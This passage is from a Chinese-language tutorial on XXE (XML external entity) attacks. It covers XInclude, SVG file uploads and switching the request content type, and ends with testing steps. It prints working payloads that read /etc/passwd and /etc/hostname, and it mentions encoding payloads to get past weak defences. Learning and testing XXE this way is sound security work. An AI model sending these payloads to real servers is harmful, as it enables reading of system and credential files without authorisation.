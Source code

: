 ```xml-dtd
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### XXE attacks via file upload

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式示例包括DOCX等办公文档格式和SVG等图像格式。

例如，应用程序可能允许用户上传图像，并在上传图像后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，正在使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，攻击者可以提交恶意SVG图像，从而达到XXE漏洞的隐藏攻击面。

```svg
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### XXE attacks via modified content type

大多数POST请求使用由HTML表单生成的默认内容类型，例如`application/x-www-form-urlencoded` 。某些网站希望以这种格式接收请求，**但会容忍其他内容类型**，包括XML。

例如，如果普通请求包含以下内容

```http
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

然后，您可以提交以下请求，结果相同：

```html
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

如果应用程序允许消息正文中包含XML的请求，并将正文内容解析为XML，则只需将请求重新格式化以使用XML格式，即可到达隐藏的XXE攻击面。

### How to find and test for XXE vulnerabilities

1. Burp suite的Web漏洞扫描程序
2. 手动测试
   - 通过基于已知操作系统文件定义外部实体并在应用程序响应中返回的数据中使用该实体来测试文件检索。
   - 通过基于控制的系统URL定义外部实体，并监视与该系统的交互来测试盲XXE。
   - 通过使用XInclude攻击尝试检索已知的操作系统文件，测试服务器端XML文档中包含用户提供的非XML数据是否容易受到攻击。

>请记住，XML只是一种数据传输格式。请确保还测试任何基于XML的功能是否存在其他漏洞，如XSS和SQL注入。可能需要使用XML转义序列对有效负载进行编码，以避免破坏语法，但也可以使用它来混淆攻击，以绕过薄弱的防御。